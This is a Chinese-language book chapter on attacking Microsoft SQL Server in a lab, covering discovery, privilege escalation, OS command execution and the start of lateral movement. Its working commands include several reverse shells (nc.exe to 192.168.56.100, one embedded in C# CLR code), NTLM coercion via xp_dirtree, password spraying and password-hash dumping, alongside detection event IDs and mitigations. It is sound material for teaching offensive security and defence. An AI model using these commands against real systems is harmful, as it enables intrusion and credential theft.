

# 第九章：占领 Microsoft SQL Server

本章将聚焦于典型 Windows 环境中的一个常见且重要的服务——Microsoft SQL Server。SQL Server 是一个关系数据库管理系统，类似于 Oracle 或 MySQL。它与 Active Directory 紧密集成，支持 Windows 身份验证、信任关系的使用等。我们将按照通常的攻击步骤，从目标环境中发现并枚举实例开始。许多不同的工具可以帮助完成这些活动。接着，我们将探索在 SQL Server 中提升权限的方法，并进一步执行底层操作系统的命令。本章将为你提供通过滥用数据库链接在数据库实例之间进行横向移动的坚实理解。最后，我们将探讨如何利用 SQL Server 功能实现主机和应用程序级别的持久性。

在本章中，我们将涵盖以下主题：

+   介绍、发现和枚举

+   权限提升

+   **操作系统**（**OS**）命令执行

+   横向移动

+   持久性

# 技术要求

在本章中，你需要具备以下内容：

+   VMware Workstation Pro 或 Oracle VirtualBox，至少需要 16 GB 的内存、8 个 CPU 核心以及至少 55 GB 的总空间（如果你进行快照，所需空间会更多）

+   强烈推荐使用基于 Linux 的操作系统

+   在 GOADv2 项目中，我们将使用 SRV02 和 SRV03

# 介绍、发现和枚举

在本节中，我们将开始对 Microsoft SQL Server 安全评估的旅程。我们将简要介绍 SQL Server，然后进入发现过程。本节的大部分内容将深入探讨枚举过程的手动和自动化方面。

## SQL Server 介绍

在我们开始探索发现主题之前，先让我们看看 SQL Server 的功能、固定服务器角色和安全机制。SQL Server 是安装在操作系统上的应用程序；在我们的例子中，我们只关注 Windows 主机。该服务器作为一组唯一命名的 Windows 服务在服务账户的上下文中运行。默认的监听 TCP 端口是 `1433`，UDP 端口是 `1434`；然而，如果运行更多的服务，端口列表会更长[1]。为了访问存储的数据，用户必须通过身份验证和授权检查。

身份验证用来验证用户是否有足够的权限登录实例。身份验证机制有两种——使用 Windows 账户或 SQL Server 登录。这两种机制的区别在于身份验证的处理者——是域控制器还是 SQL Server 本身。登录后，账户将被分配一些在创建时定义的服务器级角色。可以将这些角色看作是 Active Directory 安全组。这些角色是服务器级别的，可以是固定的或用户定义的。SQL Server 2022 在先前版本的 9 个固定角色基础上增加了 10 个新固定角色[2]。固定服务器角色权限无法更改，除了“public”角色。授权发生在数据库级别，决定用户在登录后对数据库的权限。为此，认证账户将映射到数据库用户。

有五个默认数据库：

+   `master` – 存储系统级别的实例信息

+   `msdb` – SQL Server Agent 用于调度作业和警报

+   `model` – 模板数据库，用于创建新数据库

+   `resource` – 只读数据库，保存 `sys` 模式对象

+   `tempdb` – 存储临时对象和结果

现在我们已经了解了 SQL Server 的基本信息，接下来我们可以进行侦察活动。

## 发现

从未认证的攻击者视角来看，要发现 SQL Server，我们需要进行网络端口扫描。Nmap、`PowerUpSQL`、`SQLCMD`、CrackMapExec 和 `mssql_ping` Metasploit 模块将帮助进行这项活动。这些工具查询常见端口，如 TCP `1433` 和 UDP `1434`，或从域中提取并解析 SPN，示例如下：

```
crackmapexec mssql 192.168.56.22-23
```

如果攻击者拥有数据库服务器的本地访问权限，通过简单的服务枚举查找以`MSSQL*`开头的名称，或查询位于`HKLM:\SOFTWARE\Microsoft\Microsoft SQL Server\*`的注册表项，就能发现正在运行的数据库实例。PowerUpSQL 正是通过 `Get-SQLInstanceLocal` 函数实现相同功能的。

一组有效的域凭证将允许攻击者执行整个森林范围内的 SPN 扫描，以检测正在运行的 SQL Server 实例。在本章中，将通过一款新发布的工具 `SQLRecon`[4] 和经典的 `PowerUpSQL`[5] 展示一些示例。让我们通过执行三条提供完全相同结果的命令，来发现 SQL Server 是否安装在 essos 域上。值得注意的是，`setspn` 和 SQLRecon 使用当前域用户上下文，并且从域加入的计算机上运行。而对于 `impacket` 的 Python 脚本，我们可以在 Kali 上运行时显式指定凭证：

```
setspn -T essos -Q MSSQL*/*
python3 GetUserSPNs.py essos.local/khal.drogo:horse
SQLRecon.exe /e:SqlSpns
```

SQLRecon 执行 LDAP 查询，查找一个具有 SPN 以 `MSSQL*` 开头的用户（**sAMAccountType=805306368**）（`servicePrincipalName=MSSQL`*）。发现的结果如以下截图所示：


图 9.1 – 发现的 SQL Server 实例

攻击者然后可以尝试使用被泄露的域或 SQL Server 用户凭证登录到发现的实例。获取 SQL Server 初始立足点的另一种方法是通过暴力破解。

## 暴力破解

字典攻击是非常嘈杂的，必须小心执行，以避免被锁定在目标账户之外。Nmap 脚本、Metasploit 模块和 PowerUpSQL 函数可以帮助执行此类活动。在 PowerUpSQL[6] 中，有三个函数允许你进行登录攻击：

+   `Invoke-SQLAuditWeakLoginPw` – 将用户名作为密码进行测试

+   `Get-SQLConnectionTestThreaded` – 使用已知的用户名/密码对或作为当前用户进行登录

+   `Get-SQLServerLoginDefaultPw` – 检查常见应用程序使用的默认密码，基于实例名称

`CrackMapExec` 还允许你执行密码喷射攻击，使用提供的用户名和密码列表：

```
crackmapexec mssql 192.168.56.23 -u userfile -p passwordfile --no-bruteforce
```

假设攻击者已经入侵或猜测到了用户 `jorah.mormont` 的密码。以下 PowerUpSQL 链式命令验证以 `jorah.mormont` 用户身份访问 SQL Server 实例并收集服务器信息：

```
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded | Get-SQLServerInfo
```

上述命令的输出如下图所示：


图 9.2 – 使用 PowerUpSQL 进行 SQL Server 枚举

`SQLRecon` 命令也显示映射的角色：


图 9.3 – 使用被泄露的用户进行初始立足点

获取立足点后，攻击者可以继续枚举其他数据库用户，以确定可能的下一个目标。Metasploit 有一个用于枚举 SQL 登录的模块，叫做 `admin/mssql/mssql_enum_sql_logins`，PowerUpSQL 也有一个 `Get-SQLFuzzServerLogin` 函数。该函数在后台调用 SQL Server `suser_name` 函数，并迭代主 ID 值。一个公共角色就足以执行此类活动：

```
Get-SQLFuzzServerLogin -Instance BRAAVOS\SQLEXPRESS -Verbose
```

结果如下图所示：


图 9.4 – 实例的所有服务器登录

还可以使用 `Get-SQLFuzzDomainAccount` 函数和 Metasploit `admin/mssql/mssql_enum_domain_accounts` 模块枚举域用户。思路完全相同，但这次迭代会遍历域 RID。默认的结束迭代值是 1,000；然而，对于大型环境，可以通过 `-EndId` 选项进行修改。需要注意的是，由此函数使用的 LSA SID 查找请求（在我们的例子中是 **lsa_lookupsids3**）会在短时间内为域控制器造成大量流量：

```
Get-SQLFuzzDomainAccount -Instance BRAAVOS\SQLEXPRESS -EndId 2000
```

`Get-SQLFuzzDomainAccount` 命令的结果如下图所示：


图 9.5 – 所有域组和用户

暴力破解攻击会在 Windows 日志中留下事件 ID `18456` 的痕迹。事件中的错误文本有助于确定攻击者是进行用户枚举还是密码喷射攻击。

攻击者的下一步是使用获得的凭证枚举数据库本身。

## 数据库枚举

枚举可以通过使用像 SQLRecon 这样的工具或者手动运行查询来完成，使用如`HeidiSQL`[7]或 Microsoft SQL Server Management Studio 这样的工具。以下是一些常见的查询，用于获取数据库的基本信息[8][9]。你可以在 SQL SMS 中运行这些查询。下面截图中语句上方的注释旨在解释它们的目的：

```
-- database version
SELECT @@version;
-- current login name
SELECT SYSTEM_USER;
-- current role
SELECT USER;
-- check if our role has public or sysadmin privileges
SELECT IS_SRVROLEMEMBER('public');
SELECT IS_SRVROLEMEMBER('sysadmin');
-- list all databases
SELECT name FROM master..sysdatabases;
-- list all users
SELECT * FROM sys.server_principals
-- list linked servers
EXEC sp_linkedservers;
-- list logins available for impersonation
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
-- effective permissions for the server and the database
SELECT * FROM fn_my_permissions(NULL, 'SERVER')
SELECT * FROM fn_my_permissions(NULL, 'DATABASE')
```

之前查询的所有信息都很重要；然而，最关键的信息是当前用户的角色、链接的服务器、可供冒充的登录账户，以及我们在服务器和数据库上的有效权限。

SQLRecon 有对应的枚举模块。该工具支持五种类型的身份验证，但我们只关心其中三种——Windows 令牌（**WinToken**）、Windows 域凭证（**WinDomain**）和本地凭证（**Local**）。让我们开始枚举。

例如，以下命令显示了当前用户（**khal.drogo**）可以冒充的链接服务器和账户：


图 9.6 – 可以被冒充的账户列表及其链接的服务器

要识别权限提升的路径，我们可以运行 PowerUpSQL 函数，如`Invoke-SQLAudit`或`Invoke-SQLEscalatePriv`。然而，让我们在接下来的章节中逐一详细介绍可用的权限提升技术。

# 权限提升

在上一节中，我们看到了多种数据库枚举技术。在本节中，我们将使用收集到的侦察结果，针对用户`khal.drogo`，识别数据库服务器上的权限提升路径。我们还将实践从 SQL Server 提升权限到主机本身。在本节结束时，我们将从该用户提升到`sysadmin`角色，且拥有本地主机管理员权限。

## 冒充

最常见的权限提升路径之一是用户冒充。此权限允许冒充另一个用户或登录账户，以代表被冒充的用户访问资源，而无需专门授予权限[10]。`sysadmin`角色对所有数据库都有此权限，`db_owner`角色成员只在他们拥有的数据库中拥有此权限。我们可以通过以下查询检查当前用户是否被允许冒充`sa`用户登录：

```
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
```

假冒可以发生在服务器级别（**EXECUTE AS LOGIN**）和数据库级别（**EXECUTE AS USER**）。Metasploit 有一个名为`admin/mssql/mssql_escalate_execute_as`的模块，可以通过假冒提升权限。PowerUpSQL 也有一个功能可以识别并利用假冒：

```
Invoke-SQLAuditPrivImpersonateLogin -Instance BRAAVOS\SQLEXPRESS -Exploit
```

结果如下面的截图所示：


图 9.7 – 成功的权限提升

显然，审核具有假冒权限的用户至关重要。PowerUpSQL 的`Invoke-SQLAudit`功能列出了所有可以假冒其他用户的登录名。然而，它无法构建关系图（如 BloodHound 那样）并识别嵌套的关系。

## 受信任配置错误

**受信任**是一个数据库属性，表示 SQL Server 信任该数据库及其内容。默认情况下，此属性是禁用的，只有`sysadmin`才能启用。如果攻击者是一个**受信任**数据库中属于`db_owner`角色的成员，并且该数据库的所有者是`sysadmin`，那么就有可能提升权限。拥有`db_owner`角色的攻击者可以创建一个存储过程，使其在数据库所有者（**sysadmin**）的上下文中执行（**EXECUTE AS OWNER**）[11]。

让我们在实验室中设置这个攻击。以下代码将创建一个数据库，将其设置为**受信任**，为`viserys.targaryen`创建一个登录，并授予他`db_owner`角色：

```
CREATE DATABASE MyDb
USE MyDb
ALTER DATABASE MyDb SET TRUSTWORTHY ON
CREATE LOGIN [ESSOS\viserys.targaryen] FROM WINDOWS
ALTER LOGIN [ESSOS\viserys.targaryen] with default_database = [MyDb];
CREATE USER [ESSOS\viserys.targaryen] FROM LOGIN [ESSOS\viserys.targaryen];
EXEC sp_addrolemember [db_owner], [ESSOS\viserys.targaryen]
```

现在，我们准备执行攻击。首先，让我们识别**受信任**的数据库。PowerUpSQL 有一个名为`Invoke-SQLAuditPrivTrustworthy`的功能可以完成此任务，或者我们可以直接运行以下 SQL 查询：

```
SELECT name as database_name , SUSER_NAME(owner_sid) AS database_owner , is_trustworthy_on AS TRUSTWORTHY from sys.databases;
```

其次，我们需要检查**受信任**数据库中`db_owner`角色的成员：

```
USE MyDb;
SELECT DP1.name AS DatabaseRoleName, isnull (DP2.name, 'No members') AS DatabaseUserName FROM sys.database_role_members AS DRM  RIGHT OUTER JOIN sys.database_principals AS DP1  ON DRM.role_principal_id = DP1.principal_id  LEFT OUTER JOIN sys.database_principals AS DP2  ON DRM.member_principal_id = DP2.principal_id  WHERE DP1.type = 'R' ORDER BY DP1.name;
```

最后一步是创建一个存储过程并执行它：

```
CREATE PROCEDURE sp_pe_trust
WITH EXECUTE AS OWNER
AS
EXEC sp_addsrvrolemember [ESSOS\viserys.targaryen],[sysadmin]
EXEC sp_pe_trust
SELECT is_srvrolemember('sysadmin')
```

可以通过使用 Metasploit 的`auxiliary/admin/mssql/mssql_escalate_dbowner`模块或`Invoke-SqlServer-Escalate-DbOwner`脚本[12]来自动化攻击。自动化利用的结果如下面的截图所示：


图 9.8 – 从 db_owner 到 sysadmin 的权限提升

为了防止配置错误，建议关闭**受信任**属性或将数据库所有者更改为低权限用户。

从以下部分开始，我们将逐渐从数据库级别转向操作系统级别。

## UNC 路径注入

**统一命名约定**（**UNC**）路径可以用于访问远程服务器上的文件。有两个存储过程支持 UNC 路径，并且可以通过公共服务器角色执行 – `xp_dirtree` 和 `xp_fileexist`。存储过程是将多个 SQL 语句组合在一起的逻辑单元。这样做的好处包括安全性、可重用性和性能。通过执行这两个存储过程之一，攻击者迫使 SQL Server 服务帐户访问并随后对受控资源进行身份验证。然后，NTLMv2 挑战将被捕获并转发，或由攻击者破解。通过使用 Metasploit 的 `auxiliary/admin/mssql/mssql_ntlm_stealer` 模块、SQLRecon 的 `smb` 模块，或 PowerUpSQL 中的 `Invoke-SQLUncPathInjection` 函数，可以自动化此攻击。它们本质上执行以下查询：

```
EXEC master.dbo.xp_dirtree '\\192.168.56.100\blah'
```

NTLMv2 挑战将被 Responder 捕获，如下图所示：


图 9.9 – 已捕获 sql_svc 的 NTLMv2 挑战

为了消除此攻击向量，建议撤销公共角色执行这些过程的权限。

还有另一种迫使身份验证的方式，但这次是作为安装了 SQL Server 的机器帐户[13]。在登录到 SQL Server Management Studio 后，攻击者从 XMLA 文件恢复一个数据库，但将其指向一个受控监听器作为备份文件位置。然后，攻击者将捕获 NTLMv2 挑战。

## 从服务帐户到 SYSTEM

通常，数据库服务帐户拥有 `SeImpersonatePrivilege` 权限。滥用此权限可以将我们的权限提升至 SYSTEM。根据目标操作系统的版本，提供了不同的漏洞利用工具。`JuicyPotato`[14] 适用于 Windows Server 2019 以下版本，而 RoguePotato、PrintSpoofer、SharpEfsPotato 和 GodPotato[15] 适用于更高版本。所有漏洞利用都在利用过程中使用不同的服务，但主要思路是创建管道，强制连接，并伪装成 SYSTEM 令牌。为了在服务上下文中执行进一步的命令，我们将在 HeidiSQL 中运行以下命令，这将作为 `sql_svc` 用户连接回我们的 Kali 主机：

```
EXEC master..xp_cmdshell 'cmd.exe /c C:\Users\Public\nc.exe -e cmd 192.168.56.100 443'
```

只需运行漏洞利用即可授予我们 SYSTEM 级别的权限：


图 9.10 – GodPotato 漏洞成功利用

微软尚未发布针对该权限提升向量的修复。

以下示例将展示如果攻击者是本地管理员，如何在数据库级别获取 `sysadmin` 权限。

## 从本地管理员到 sysadmin

另一种可能的情况是，攻击者已获得数据库服务器的本地管理员权限。有已知的方法可以获取数据库`sysadmin`权限作为下一步[16]。最常见的技术之一是冒充 SQL Server 服务帐户，因为默认情况下，它拥有`sysadmin`权限。PowerUpSQL 有两个冒充函数，分别是 `Invoke-SQLImpersonateService` 和 `Invoke-SQLImpersonateServiceCmd`。其他技术包括借助 Mimikatz 读取 LSA 密钥、提取 SQL Server 登录密码哈希、将 DLL 或 shellcode 注入进程，甚至运行数据库的单用户模式。一个名为 `post/windows/manage/mssql_local_auth_bypass` 的 Metasploit 模块结合了为旧版 SQL Server 安装获取 `LocalSystem` 权限和迁移到新版 SQL Server 服务进程的能力。

运行以下命令可以获得 `sysadmin` 权限并提取 SQL Server 登录密码哈希：

```
Invoke-SQLImpersonateService -Verbose -Instance BRAAVOS\SQLEXPRESS
Get-SQLServerPasswordHash -Verbose -Instance BRAAVOS\SQLEXPRESS
```

结果显示在以下截图中：


图 9.11 – SQL Server 登录密码哈希

显然，还有另一种提取密码哈希的方法——从 `master.mdf` 文件中提取。XPN 之前发布了一些出色的研究[17]，展示了 `master.mdf` 文件的内部结构，并发布了提取密码哈希的工具[18]。此攻击需要本地管理员权限。首先，我们需要定位 `master.mdf` 文件并使用 RawCopy 工具将其复制。该工具从磁盘复制原始数据，因此可以绕过 SQL Server 锁定 `master.mdf` 文件的限制。PowerShell 脚本使用 `OrcaMDF` .NET 库，因此我们还需要加载这些库，然后提取哈希：

```
RawCopy64.exe /FileNamePath:"C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\DATA\master.mdf" /OutputPath:C:\Users\Public
[Reflection.Assembly]::LoadFile("$pwd\OrcaMDF.RawCore.dll")
[Reflection.Assembly]::LoadFile("$pwd\OrcaMDF.Framework.dll")
ipmo .\Get-MDFHashes.ps1
Get-MDFHashes -mdf "C:\Users\Public\master.mdf" | fl
```

上述命令的输出如下截图所示：


图 9.12 – SA SQL Server 登录的密码哈希

在接下来的部分中，我们将研究多种在操作系统级别执行命令的方法。

# 操作系统命令执行

在接下来的部分中，我们将探讨通过 SQL Server 执行操作系统命令的方法。要启用命令执行，必须拥有 `sysadmin` 权限。执行本身总是在服务帐户的上下文中进行。攻击者无需知道 SQL Server 服务或代理帐户的哈希值或密码。让我们首先看看内置的扩展存储过程。

## xp_cmdshell

`xp_cmdshell` 可能是最著名的内置扩展存储过程，它默认情况下是禁用的。启用它需要 `sysadmin` 权限。PowerUpSQL 中有一些函数（`Invoke-SQLOSCmdExec` 和 **Invoke-SQLOSCmd**）、SQLRecon（`EnableXp` 和 **XpCmd**）以及 Metasploit 中的 `admin/mssql/mssql_exec` 模块可以自动化此任务。安装并启用 `xp_cmdshell` 的手动查询如下所示：

```
sp_addextendedproc 'xp_cmdshell','xplog70.dll
EXEC sp_configure 'show advanced options',1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell',1
RECONFIGURE
EXEC master..xp_cmdshell 'whoami'
```

需要提到的是，这样的活动将生成 ID 为 `15457` 的事件，因为 `sp_configure` 存储过程将被使用。如果配置尝试失败（因为用户权限不足），Windows 事件 ID `15281` 将被记录。


图 9.13 – 重新配置 xp_cmdshell 的失败尝试

此外，Metasploit 中有一个模块 (**exploit/windows/mssql/mssql_payload**) 可以通过 `xp_cmdshell` 执行任意有效载荷。

## 一个自定义扩展存储过程

简单来说，自定义扩展存储过程是 SQL Server 的一个 DLL 扩展。需要 Sysadmin 权限来注册每个存储过程到扩展中。DLL 的代码示例可以在 GitHub 上找到[19]。需要注意的是，DLL 和函数名称是区分大小写的，必须完全相同。

PowerUpSQL 有一个名为 `Create-SQLFileXpDll` 的函数，它将为我们创建一个 DLL。然后，我们将注册它，列出扩展存储过程以验证注册，最后执行我们的恶意扩展存储过程。以下命令复制了这个过程：

```
Create-SQLFileXpDll -OutFile C:\Users\Public\xp_shell.dll -Command "C:\Users\Public\nc.exe -e cmd 192.168.56.100 443" -ExportName xp_shell -Verbose
Get-SQLQuery -Instance BRAAVOS\SQLEXPRESS -Username sa -Password "sa_P@ssw0rd!Ess0s" -Query "sp_addextendedproc 'xp_shell', 'C:\Users\Public\xp_shell.dll'"
Get-SQLStoredProcedureXP -Instance BRAAVOS\SQLEXPRESS -Username sa -Password "sa_P@ssw0rd!Ess0s"
Get-SQLQuery -Instance BRAAVOS\SQLEXPRESS -Username sa -Password "sa_P@ssw0rd!Ess0s" -Query "EXEC xp_shell"
```

不幸的是，自动创建的 PowerUpSQL DLL 在实验室中的目标机器上并未执行，即使通过 `rundll32` 命令也是如此。令人惊讶的是，同样的 DLL 在 Windows 10 机器上运行良好，如下所示：


图 9.14 – DLL 生成了一个反向 shell

成功加载的 DLL 生成事件 ID `33090`，如下截图所示：


图 9.15 – DLL 成功加载到内存中

失败的尝试将生成 ID 为 `17750` 的错误。通过关联这两个事件，如果环境中有预定义的 DLL 名单，可以基于 DLL 名称构建检测。

## 自定义 CLR 程序集

**公共语言运行时**(**CLR**) 程序集是一个可以导入到 SQL Server 的 .NET DLL。导入后，DLL 方法可以链接到存储过程。在这种情况下，攻击分为两步——启用 CLR 和实际执行。一个很好的分步博客帖子详细说明了这个过程，作者是 *NetSPI*[20]。C# 代码被编译成 DLL 并导入到 SQL Server。以下查询可以执行操作系统命令：

```
use msdb
EXEC sp_configure 'show advanced options',1
RECONFIGURE
EXEC sp_configure 'clr enabled',1
RECONFIGURE
CREATE ASSEMBLY my_evil FROM 'C:\Users\Public\cmd_exec.dll' WITH PERMISSION_SET = UNSAFE;
CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [my_evil].[StoredProcedures].[cmd_exec];
```

该方法的另一个优点是，可以仅在内存中使用 DLL 的十六进制表示，而不需要接触磁盘。

还有两个需要注意的事项。此技术要求设置`TRUSTWORTHY`属性，这就是为什么我们使用默认具有此属性的`msdb`数据库。此外，`clr strict security`选项是微软引入的[21]。默认情况下，`alter/create`程序集语句中的`permission_set`选项将被忽略。要关闭此选项，需要通过`sp_configure`重新配置 CLR 严格安全设置。

为了演示，我们将结合使用 SQLRecon 和 PowerUpSQL 中的`Create-SQLFileCLRDll`函数来获得一个交互式反向 Shell。第一步是通过以下命令启用 CLR：

```
SQLRecon.exe /auth:Local /host:braavos.essos.local /username:sa /password:"sa_P@ssw0rd!Ess0s" /module:EnableClr
```

然后，我们使用`Create-SQLFileCLRDll`函数生成自定义程序集的代码：

```
Create-SQLFileCLRDll -OutFile runcmd -OutDir . -AssemblyName "runcmd" -AssemblyClassName "StoredProcedures" -AssemblyMethodName "cmd_exec"
```

让我们修改生成的`.csc`文件。以下代码效果非常好：

```
            using System;
            using System.Data;
            using System.Data.SqlClient;
            using System.Data.SqlTypes;
            using Microsoft.SqlServer.Server;
            using System.Diagnostics;
            public partial class StoredProcedures
            {
            [Microsoft.SqlServer.Server.SqlProcedure]
            public static void cmd_exec ()
            {
            Process proc = new Process();
            proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
               proc.StartInfo.Arguments = string.Format(@" /C C:\Users\Public\nc.exe -e cmd 192.168.56.100 443");
            proc.Start();
            proc.WaitForExit();
            proc.Close();
            }
            };
```

以下两个命令将编译上面的代码为 DLL，SQLRecon 将自动化其余的过程：

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:library C:\Users\Public\runcmd.csc
SQLRecon.exe /auth:Local /host:braavos.essos.local /username:sa /password:"sa_P@ssw0rd!Ess0s" /module:Clr /dll:runcmd.dll /function:cmd_exec
```

请注意，SQLRecon 通过将程序集添加到信任列表来绕过`clr strict security`选项：


图 9.16 – 自定义 CLR 成功执行反向 Shell

结果，我们在目标上获得了一个交互式 Shell：


图 9.17 – 数据库服务器上的交互式反向 Shell

这个功能也在 Metasploit 模块`exploit/windows/mssql/mssql_clr_payload`和另一个 PowerShell 工具`SeeCLRly`[22]中实现。

为了列出并导出现有的 CLR 程序集，PowerUpSQL 实现了`Get-SQLStoredProcedureCLR`函数。我们可以使用`dnSpy`反编译器修改导出的 CLR DLL，然后重新上传它，覆盖现有的文件，以实现隐蔽持久化。

通过事件 ID `15457`可以进行攻击检测，因为攻击者必须使用`sp_configure`。程序集创建将生成事件 ID `6299`，卸载程序集将生成事件 ID `10310`，卸载确认将生成事件 ID `6290`。通过关联和串联这四个事件，可以帮助可靠地检测恶意活动。

## OLE 自动化过程

**对象链接与嵌入**（**OLE**）技术允许你将一个应用程序中的对象链接到另一个应用程序中。OLE 自动化过程帮助 SQL Server 与 COM 对象进行交互。**组件对象模型**（**COM**）允许二进制软件组件之间的交互。OLE 自动化过程通过`odsole70.dll`与 COM 进行交互[23]。以下是可以用于命令执行的过程列表：

+   `sp_OACreate` – 创建一个 OLE 对象实例

+   `sp_OAMethod` – 调用 OLE 对象方法

+   `sp_OADestroy` – 销毁一个创建的 OLE 对象

+   `sp_OASetProperty` – 设置 OLE 对象属性

一些实际的 OLE 使用示例包括在 Web 服务器上创建 Web Shell、下载恶意软件、在文件系统中移动文件和执行命令。PowerUpSQL 中的`Invoke-SQLOSCmdCLR`函数将启用 OLE 自动化，执行命令，从临时文件读取命令输出，然后删除该文件。Metasploit 的`admin/mssql/mssql_exec`模块也可以切换到使用`sp_OACreate`过程。然而，是否能够获取结果将取决于攻击者使用的方法——例如，使用`OPENROWSET()`函数。以下是通过 SQLRecon 和`nc.exe`帮助获取交互式反向 Shell 的命令：

```
SQLRecon.exe /auth:Local /host:braavos.essos.local /username:sa /password:"sa_P@ssw0rd!Ess0s" /module:enableole
SQLRecon.exe /auth:Local /host:braavos.essos.local /username:sa /password:"sa_P@ssw0rd!Ess0s" /module:olecmd /command:"C:\Users\Public\nc.exe -e cmd 192.168.56.100 443"
```

成功执行的结果如下截图所示：



图 9.18 – 通过 OLE 自动化过程执行操作系统命令

手动获取反向 Shell 的代码如下所示：

```
DECLARE @output INT
DECLARE @ProgramToRun VARCHAR(255)
SET @ProgramToRun = 'Run("cmd.exe /c C:\Users\Public\nc.exe -e cmd 192.168.56.100 443")'
EXEC sp_oacreate 'wScript.Shell', @output out
EXEC sp_oamethod @output, @ProgramToRun
EXEC sp_oadestroy @output
```

与 CLR 执行一样，无法完全防止这种攻击。建议禁用 OLE 自动化，并移除用户存储过程的执行权限。可以通过对所有上述执行方法的`sp_configure`事件监控来进行检测。此外，当`odsole70.dll`加载到内存中时，事件 ID `33090`将被生成，而当`sp_OACreate`被执行时，将生成事件 ID `8128`。

## 代理作业

SQL Server Agent 是一个 Windows 服务，用于执行自动化任务。代理作业将在 SQL Server Agent 服务下运行，或者可以利用代理代理功能，这意味着作业将在不同的用户上下文中运行。可以通过`sp_start_job`存储过程手动启动作业、安排作业或在特定条件满足时执行作业。要创建一个作业，需要`sysadmin`角色或`msdb`数据库中的`SQLAgentUserRole`、`SQLAgentReaderRole`和`SQLAgentOperatorRole`固定数据库角色。许多作业类型，如 CmdExec、PowerShell、ActiveX 脚本和 SQL Server 集成服务，支持命令执行。利用作业功能需要以下步骤：

+   `sp_add_job` – 创建一个作业

+   `sp_add_jobstep` – 添加作业步骤

+   `sp_start_job` – 运行一个作业

+   `sp_delete_job` – 删除作业

在 Optiv 博客文章[24]中展示了一个逐步创建 PowerShell 作业的精彩示例。让我们为 CmdExec 创建一个作业以获取反向 Shell：

```
EXEC sp_configure 'show advanced options', 1
RECONFIGURE
EXEC SP_CONFIGURE 'Agent XPs', 1
RECONFIGURE
USE msdb
EXEC dbo.sp_add_job @job_name = N'rev_shell'
EXEC sp_add_jobstep @job_name = N'rev_shell', @step_name = N'run_nc',
@subsystem = N'cmdexec', @command = N'C:\Users\Public\nc.exe -e cmd 192.168.56.100 443', @retry_attempts = 1, @retry_interval = 5
EXEC dbo.sp_add_jobserver @job_name = N'rev_shell'
EXEC dbo.sp_start_job N'rev_shell'
EXEC dbo.sp_delete_job @job_name = N'rev_shell'
```

不幸的是，这段代码在我们的实验室中无法运行，因为 SQL Server Agent 服务无法启动。原因是 Agent 作业仅在付费版 MS SQL Server 中支持，而在 Express 版中不支持。然而，展示这种攻击向量也是很有意义的。像往常一样，PowerUpSQL 中有一个函数（**Invoke-SQLOSCmdAgentJob**）和 SQLRecon 中的两个模块（`AgentStatus`和**AgentCmd**）可以自动化该任务。攻击者可以通过添加一个步骤到现有作业中，而不是创建一个新的作业。要列出所有作业，可以使用 PowerUpSQL 中的`Get-SQLAgentJob`函数或以下查询：

```
SELECT
job.job_id, notify_level_email, name, enabled,
description, step_name, command, server, database_name
FROM
msdb.dbo.sysjobs job
INNER JOIN
msdb.dbo.sysjobsteps steps
ON
job.job_id = steps.job_id
```

预防建议包括禁用 SQL Server Agent 服务（如果没有使用的话），并限制具有`SQLAgentUserRole`、`SQLAgentReaderRole`和`SQLAgentOperatorRole`固定数据库角色的用户。

## 外部脚本

还有一种方法可以借助机器学习服务功能运行命令。它使你能够运行 R 和 Python 脚本。安装此功能需要 SQL Server 的付费版本。在我们的例子中，我们将使用免费的 Express 版本，并简要了解可用的运行命令的方法。首先，要启用外部脚本，需要`sysadmin`权限，并进行服务器级别的更改（**sp_configure 'external scripts enabled'**）。这两种语言有许多运行任意代码的方法，从 UNC 路径注入到完全交互式 Shell。一些有趣的示例可以在[25]和[26]中找到。PowerUpSQL 中的`Invoke-SQLOSCmdR`和`Invoke-SQLOSCmdPython`函数也可以自动化利用过程。

在接下来的部分，我们将探讨攻击者如何在目标环境的域和数据库层面进行横向移动。

# 横向移动

正如我们在*第五章*中看到的，理解攻击者如何滥用合法的应用程序和协议以在目标环境内扩展是至关重要的。SQL Server 还通过两种技术拓宽了横向移动的场景。一种是常见的，叫做共享服务账户。另一种则是 SQL Server 特有的——滥用数据库链接。我们将快速探讨第一个方法，重点关注第二种方法。我们将检查如何对链接服务器进行枚举、执行代码并提取明文硬编码凭证。

## 共享服务账户

在整个环境中使用共享服务账户可能会导致灾难性的后果。如果一个服务账户通过 Kerberoasting、UNC 路径注入或其他任何方式被攻破，这意味着所有使用该账户的实例都会被攻破。此外，服务账户默认在数据库和 SQL Server 级别具有`sysadmin`权限，并且可能在底层操作系统上具有广泛的权限。为了防止这种强大的横向移动，所有服务账户应在整个环境中保持唯一，并使用 gMSA。

## 数据库链接

什么是数据库链接？简单来说，它是两个或多个服务器之间的持久连接。它们允许你访问外部数据源，并且如果源是 SQL Server，还可以执行存储过程。链接即使跨越森林信任，也能正常工作，有时它可能是进入另一个域或森林的唯一途径。链接的配置方式有两种——使用当前登录用户的上下文或硬编码凭据。对链接服务器的查询是以用于配置链接的用户凭据执行的。实际上，这是冒充用户。链接可以被爬取，意味着攻击者可以从一个 SQL Server 跳到另一个 SQL Server。我们需要了解我们是谁，进行枚举，并寻找权限提升或横向移动的选项。

